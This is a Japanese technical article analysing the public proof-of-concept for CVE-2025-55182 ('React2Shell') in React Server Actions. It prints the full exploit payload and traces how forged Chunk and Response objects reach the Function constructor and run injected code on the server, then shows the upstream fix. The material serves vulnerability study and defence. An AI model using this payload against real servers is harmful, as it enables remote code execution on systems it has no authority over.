

:::message alert
**重要な法的注意事項**

本記事で紹介する技術は、セキュリティ教育および自身が管理するシステムでの脆弱性診断を目的としたものです。**許可なく他者のシステムに対してこれらの技術を使用することは、不正アクセス禁止法等の法律に違反し、刑事罰の対象となります。**

- 自身が所有・管理するシステム、または許可されたテスト環境でのみ使用してください
- 本記事の内容を悪用した場合、筆者は一切の責任を負いません
  :::

## はじめに

本記事では、以下のペイロードがServer Actionのリクエストとして送信されたとき、サーバー上で任意のコードが実行される仕組みを解説します。

ペイロードは[`01-submitted-poc.js`](https://github.com/lachlan2k/React2Shell-CVE-2025-55182-original-poc/blob/main/01-submitted-poc.js)を参照しています。これはCVE-2025-55182の発見者であるLachlan Davidson（GitHub: lachlan2k）が2025年11月29日にMetaチームへの開示時に提出したPoCです。

```js
const payload = {
  0: "$1",
  1: {
    status: "resolved_model",
    reason: 0,
    _response: "$4",
    value: '{"then":"$3:map","0":{"then":"$B3"},"length":1}',
    then: "$2:then",
  },
  2: "$@3",
  3: [],
  4: {
    _prefix: "console.log(7*7+1)//",
    _formData: { get: "$3:constructor:constructor" },
    _chunks: "$2:_response:_chunks",
  },
};
```

このペイロードはCVE-2025-55182（通称：React2Shell）として報告された脆弱性のPoCです。本記事の目的は攻撃チェーンの学習であり、本番環境への悪用を意図するものではありません。

前提として、前記事「React Server Components」の4章（Flight Protocol）および5章（Server Functions）の内容を参照していることを想定します。

## 1. Server Actionsのデシリアライズ処理

本章では、ペイロードを読む上で必要なデシリアライズ処理の概要を示します。

### 1.1 Responseオブジェクト

サーバーがmultipart/form-dataを受け取ると、`ReactFlightReplyServer.js`内の`createResponse`が以下の構造を持つオブジェクトを生成します。攻撃に関係するフィールドのみ示します（実際には`_bundlerConfig`・`_closed`・`_closedReason`・`_temporaryReferences`も存在します）。

```js
// ReactFlightReplyServer.js
const response = {
  _prefix: formFieldPrefix, // フィールド名のプレフィックス（通常 ""）
  _formData: backingFormData, // 受信したFormData
  _chunks: new Map(), // チャンクIDとChunkオブジェクトの対応Map
};
```

`_formData`がリクエストの生データ、`_chunks`がパース済みChunkオブジェクトのキャッシュとなります。

### 1.2 Chunkオブジェクト

各フォームフィールドはChunkと呼ばれる内部オブジェクトとして管理されます。Chunkは`Promise.prototype`を継承しており、`then`メソッドを持ちます。

```js
// ReactFlightReplyServer.js
function Chunk(status, value, reason, response) {
  this.status = status; // 後述
  this.value = value; // フィールドの生データ、またはパース済みの値
  this.reason = reason; // statusによって意味が異なる（後述）
  this._response = response; // 属するResponseオブジェクト
}
Chunk.prototype = Object.create(Promise.prototype);
```

`status`の値と、それに対応する`reason`の意味を示します。

| `status`の値       | 意味                     | `reason`の内容                           |
| ------------------ | ------------------------ | ---------------------------------------- |
| `'pending'`        | 未受信                   | `null`、またはrejectリスナーの配列       |
| `'blocked'`        | 他チャンクの解決待ち     | `null`、またはrejectリスナーの配列       |
| `'cyclic'`         | 循環参照の解決待ち       | `null`、またはrejectリスナーの配列       |
| `'resolved_model'` | 文字列受信済み・revive前 | ルート参照のチャンクID（`-1`は参照なし） |
| `'fulfilled'`      | revive完了               | `null`                                   |
| `'rejected'`       | エラー                   | エラーオブジェクト                       |

`Chunk.prototype.then`の実装を示します。

```js
// ReactFlightReplyServer.js（抜粋）
Chunk.prototype.then = function (resolve, reject) {
  switch (this.status) {
    case "resolved_model":
      initializeModelChunk(this); // JSONパースと参照解決
      break;
  }
  switch (this.status) {
    case "fulfilled":
      resolve(this.value);
      break;
    case "pending":
    case "blocked":
    case "cyclic":
      if (resolve) {
        if (this.value === null) this.value = [];
        this.value.push(resolve); // resolveリスナーを this.value に登録
      }
      if (reject) {
        if (this.reason === null) this.reason = [];
        this.reason.push(reject); // rejectリスナーを this.reason に登録
      }
      break;
    default:
      reject(this.reason);
      break;
  }
};
```

ChunkがPromiseを継承している結果、`then`メソッドを持つChunkはECMAScript仕様のPromise Resolution ProcedureにおけるThenable（thenメソッドを持つオブジェクト）として扱われ、JSエンジンが自動的に`.then(resolve, reject)`を呼び出します。

### 1.3 `$`参照の解決

前記事4章で示した`$`参照は、デシリアライズ時に以下のように処理されます。なお前記事4.6節の`$@`の説明（`ReactFlightClient.js`・サーバー→クライアント方向）と、本記事が扱う`ReactFlightReplyServer.js`（クライアント→サーバー方向）は異なるファイルの実装です。

| 参照形式     | 処理                                                            |
| ------------ | --------------------------------------------------------------- |
| `$N`         | `_chunks`からチャンクNを取得し、その値を返す                    |
| `$N:path:to` | チャンクNを取得後、`value["path"]["to"]`とプロパティを順に辿る  |
| `$@N`        | `_chunks`からチャンクNを取得し、**Chunkオブジェクト自体**を返す |
| `$BN`        | `_formData.get(_prefix + N)`を直接呼び出し、その返り値を返す    |

このうち`$BN`はBlob参照で、通常はファイルアップロードのフィールドを取得するために使用されます。`$N:path:to`のプロパティ走査は`hasOwnProperty`チェックを行わないため、プロトタイプチェーンを含むすべてのプロパティが対象になります。

## 2. ペイロードの解読

ペイロードの各キーはフォームフィールド名に対応し、フィールド名がチャンクIDとなります。依存関係の少ないチャンクから順に読みます。

### 2.1 チャンク3：`[]`

```js
'3': []
```

空配列です。それ自体はデータですが、以降のチャンクで次の2つを取り出す起点として使われます。

```js
// $3:constructor:constructor
[]['constructor']           // = Array
Array['constructor']        // = Function（Functionコンストラクタ）

// $3:map
[]['map']                   // = Array.prototype.map
```

### 2.2 チャンク2：`'$@3'`

```js
'2': '$@3'
```

前記事4.6節ではサーバー→クライアント方向における`$@N`を「Promiseとして後から解決される参照」と説明しましたが、クライアント→サーバー方向の`ReactFlightReplyServer.js`では`getChunk(response, N)`の戻り値をそのまま返す実装になっています。

```js
// ReactFlightReplyServer.js
case "@":
    return (
        (obj = parseInt(value.slice(2), 16)),
        getChunk(response, obj)
    );
```

`getChunk`はChunkオブジェクトを返すため、`$@3`の結果は`[]`ではなく**Chunkオブジェクト**（以降chunk3と呼びます）になります。このChunkは生成時に本物のResponseへの参照（`_response`）を自動的に持ちます。

`getOutlinedModel`はパス走査を`chunk.value`から開始します。`$2:then`・`$2:_response:_chunks`はチャンク2を取得したあと`chunk2.value`（= chunk3）を起点として走査するため、以下の2つが取り出せます。

```js
// $2:then
// chunk2.value = chunk3（$@3 の解決結果）
chunk2.value["then"]; // = chunk3['then'] = Chunk.prototype.then

// $2:_response:_chunks
chunk2.value["_response"]["_chunks"]; // = chunk3._response._chunks = 本物のResponseが持つチャンクMap
```

### 2.3 チャンク4：偽Responseオブジェクト

```js
'4': {
    '_prefix':   'console.log(7*7+1)//',
    '_formData': { 'get': '$3:constructor:constructor' },
    '_chunks':   '$2:_response:_chunks',
}
```

参照を解決すると以下になります。

```js
{
    _prefix:   'console.log(7*7+1)//',
    _formData: { get: Function },     // $3:constructor:constructor
    _chunks:   本物のチャンクMap,     // $2:_response:_chunks
}
```

本物のResponseと比較すると、`_prefix`と`_formData.get`のみが差し替えられています。

| フィールド      | 本物のResponse           | チャンク4                    |
| --------------- | ------------------------ | ---------------------------- |
| `_prefix`       | `""`                     | `"console.log(7*7+1)//"`     |
| `_formData.get` | `FormData.prototype.get` | `Function`（コンストラクタ） |
| `_chunks`       | 本物のチャンクMap        | 同じMapへの参照              |

`_chunks`に本物のMapを使う理由は、後述のチャンク1の`value`内に含まれる`$3:map`参照が`_chunks`経由で解決されるためです。一方`$BN`参照は`_chunks`を経由せず`_formData.get`を直接呼ぶため、`_formData`のみの差し替えで足ります。

差し替えによって`$B3`の挙動が変化します。`$B`の実装は以下の通りです。

```js
// ReactFlightReplyServer.js
case "B":
    return (
        (obj = parseInt(value.slice(2), 16)),
        response._formData.get(response._prefix + obj)
    );
```

本来の動作（本物のResponseを使った場合）は以下になります。

```js
_formData.get("" + 3); // = _formData.get('3')
// → FormDataのフィールド '3' に格納された値（通常はBlobや文字列）を返す
```

チャンク4を`_response`として使った場合は以下になります。

```js
Function("console.log(7*7+1)//" + 3);
// → function f() { console.log(7*7+1)//3 } を返す
```

### 2.4 チャンク1：偽Chunkオブジェクト

```js
'1': {
    'status':    'resolved_model',
    'reason':    0,
    '_response': '$4',
    'value':     '{"then":"$3:map","0":{"then":"$B3"},"length":1}',
    'then':      '$2:then'
}
```

reviveModelによる参照解決が完了した状態を示します。

```js
{
    status:    'resolved_model',
    reason:    0,
    _response: チャンク4,              // $4
    value:     '{"then":"$3:map","0":{"then":"$B3"},"length":1}',
    //          ↑ 文字列のまま。内部の参照は3章で扱う
    then:      Chunk.prototype.then,   // $2:then
}
```

本物のChunkとの対比を示します。

| フィールド  | 本物のChunk                                           | チャンク1                                                               |
| ----------- | ----------------------------------------------------- | ----------------------------------------------------------------------- |
| `status`    | `'resolved_model'`                                    | `'resolved_model'`（同じ）                                              |
| `reason`    | `-1`（`createResolvedModelChunk`経由の場合）          | `0`（`initializeModelChunk`内で`(0).toString(16) = '0'`として使われる） |
| `_response` | RSCが自動セット                                       | チャンク4に差し替え                                                     |
| `then`      | `Chunk.prototype`から継承（インスタンスに存在しない） | `$2:then`で明示セット                                                   |

`then`を明示セットする理由は、本物のChunkが`new Chunk()`で生成されるためプロトタイプチェーン経由で`then`を持つのに対し、チャンク1はJSONからパースされたプレーンオブジェクトであり`Chunk.prototype`を継承しないためです。

`_response`をチャンク4に差し替えることで、`initializeModelChunk`が`value`文字列の参照を解決するコンテキストをチャンク4に向けます。

```js
// ReactFlightReplyServer.js（抜粋）
function initializeModelChunk(chunk) {
  var rootReference = -1 === chunk.reason ? void 0 : chunk.reason.toString(16);
  //                  reason = 0 → rootReference = '0'
  var rawModel = JSON.parse(chunk.value);
  var value = reviveModel(
    chunk._response, // ← チャンク4が使われる
    { "": rawModel },
    "",
    rawModel,
    rootReference,
  );
  // reviveModel完了後にステータスを更新
  chunk.status = "fulfilled";
  chunk.value = value;
  chunk.reason = null;
}
```

### 2.5 チャンク0：`'$1'`

```js
'0': '$1'
```

デシリアライズの起点です。`getRoot(response)`はチャンク0を取得して返します。`$1`参照によりチャンク1に到達します。

## 3. 実行の連鎖

チャンク0 → チャンク1と到達した時点で、チャンク1は`then: Chunk.prototype.then`を持つためThenableとみなされます。JSエンジンはECMAScript仕様のPromise Resolution Procedureに従い`.then(resolve, reject)`を呼び出します。

```js
Chunk.prototype.then.call(chunk1, resolve, reject);
// chunk1.status === 'resolved_model'
// → initializeModelChunk(chunk1) が呼ばれる
```

`initializeModelChunk`はチャンク4を`_response`として`value`文字列を解析します。

```
'{"then":"$3:map","0":{"then":"$B3"},"length":1}'
```

`$3:map`は`_chunks`経由で解決されます。

```js
チャンク4._chunks.get(3)  // = チャンク3のChunkオブジェクト → 値は []
[]['map']                 // = Array.prototype.map
```

`$B3`は`_formData.get`を直接呼び出して解決されます。

```js
Function("console.log(7*7+1)//" + 3);
// = function f() { console.log(7*7+1)//3 }
```

解析結果：

```js
{
    then:   Array.prototype.map,  // $3:map
    '0':    { then: f },          // $B3
    length: 1
}
```

このオブジェクトが`resolve()`に渡されるとJSエンジンが再びThenableとみなし、以下の連鎖が起きます。

`Array.prototype.map.call(thenable, resolve, reject)`が呼ばれます。`length: 1`のため要素`[0]`のみが処理され、`resolve({ then: f })`が呼ばれます。`{ then: f }`もThenableとみなされ、`f.call({ then: f }, resolve, reject)`が呼ばれます。`f()`が実行され、`console.log(50)`が出力されます。

## 4. デシリアライズの全体フロー

以下に、ペイロードが受信からコード実行まで変化していく流れを示します。



## 5. 修正内容

本脆弱性に対する修正は`ReactFlightReplyServer.js`への2点の変更で構成されます。

**修正1：`chunk._response`の直接参照を廃止**

```diff
- value = reviveModel(chunk._response, ...);
+ var response = chunk.reason[RESPONSE_SYMBOL];
+ value = reviveModel(response, ...);
```

SymbolはJSONでシリアライズできないため、ペイロードから`RESPONSE_SYMBOL`キーを偽造できません。

**修正2：`hasOwnProperty`の呼び出し方を変更**

```diff
- value.hasOwnProperty(i)
+ hasOwnProperty.call(value, i)
```

## まとめ

本記事では以下を確認しました。

- Flight ProtocolのデシリアライズはChunkオブジェクトを介して処理され、ChunkはPromiseを継承するためThenableとして扱われます
- `$@N`（`ReactFlightReplyServer.js`実装）はChunkオブジェクト自体を返すため、そのChunkが持つ`_response`と`then`が外部から参照可能になります
- `_response`を差し替えることで、`initializeModelChunk`の参照解決コンテキストを制御できます
- `$BN`参照は`_formData.get(_prefix + N)`を直接呼び出すため、`_formData.get`をFunctionコンストラクタに差し替えることで任意の関数を生成できます
- 生成された関数はThenableの連鎖を通じてJSエンジンによって実行されます

## 参考

**公式リポジトリ**

- [facebook/react: ReactFlightReplyServer.js（脆弱バージョン commit 06cfa99）](https://github.com/facebook/react/blob/06cfa99f3740c4b8c16c8d63d97b0f52d90eec43/packages/react-server/src/ReactFlightReplyServer.js)
- [facebook/react: ReactFlightActionServer.js](https://github.com/facebook/react/blob/main/packages/react-server/src/ReactFlightActionServer.js)

**CVE・脆弱性情報**

- [CVE-2025-55182（NVD）](https://nvd.nist.gov/vuln/detail/CVE-2025-55182)
- [freeqaz/react2shell：脆弱性の分析とPoC](https://github.com/freeqaz/react2shell)
- [msanft/CVE-2025-55182：PoC解説](https://github.com/msanft/CVE-2025-55182)

**技術解説**

- [OffSec：CVE-2025-55182解説](https://www.offsec.com/blog/cve-2025-55182/)
- [Trend Micro：CVE-2025-55182分析](https://www.trendmicro.com/en_us/research/25/l/CVE-2025-55182-analysis-poc-itw.html)
- [calloc134：react2shell PoCレポート](https://github.com/calloc134/zenn-dir/blob/main/articles/poc-report-for-personal.md)
